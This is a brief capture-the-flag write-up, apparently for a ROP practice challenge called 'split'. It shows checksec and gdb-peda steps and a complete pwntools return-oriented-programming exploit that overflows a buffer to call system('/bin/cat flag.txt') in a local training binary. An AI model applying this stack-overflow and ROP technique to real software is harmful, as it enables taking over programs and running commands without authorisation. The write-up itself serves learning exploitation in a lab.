 ## ROP
First thing we do is to check the file with checksec.

![](bilder/checksec.png)

We have no canary found which means we can overwrite the registers and NX is enabled which means we cannot write shellcode and execute it.

```bash
ulli@Ulli:~/buff/split$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID
```

After that we can start try to find the offset in the program to reach the RIP address. First we create a pattern with gdb-peda.
```pattern create 50```

![](bilder/result.png)

With the the result we can copy the overwritten data and find the offset to the RIP register.

![](bilder/offset.png)

Next we get the rdi address.

![](bilder/rdi.png)

Then we need to find some useful commands in the program.

![](bilder/usefulFunction.png)

In the usefulFunction we find an address that calls to system, we can abuse that and change the variable, which is originaly "/bin/ls".

# The exploit

```python
from pwn import *

elf = ELF('split')

p = process(elf.path)

# Payload

payload = b"A" * 40
payload += p64(0x4007c3) # pop rdi
payload += p64(0x601060) # Argument to system call /bin/cat flag.txt - this is a text in the binary, which can be found with ghidra or elf.symbols.
payload += p64(0x40074b) # Address to system call

p.sendline(payload)

p.interactive()
```



